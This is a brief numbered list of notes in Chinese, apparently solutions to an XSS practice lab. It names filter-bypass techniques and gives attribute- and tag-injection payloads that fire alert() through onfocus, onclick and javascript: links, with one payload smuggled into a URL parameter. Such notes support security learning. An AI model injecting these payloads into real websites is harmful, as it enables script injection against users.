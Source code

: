 1. 直接注入

2. 闭合注入

3.  ' onfocus=javascript:alert(1) '

4.  `<input name=keyword value='xxx' type="button" onclick=alert(1)>`

5. ```
   "><a href=javascript:alert(1)>点我啊</a>
   ```

6. 大小写

7. 双写

8. 空格换行注释

9. 

10.  ```
   keyword=test&t_sort="type="text" onclick="alert(10)
   ```

11. 
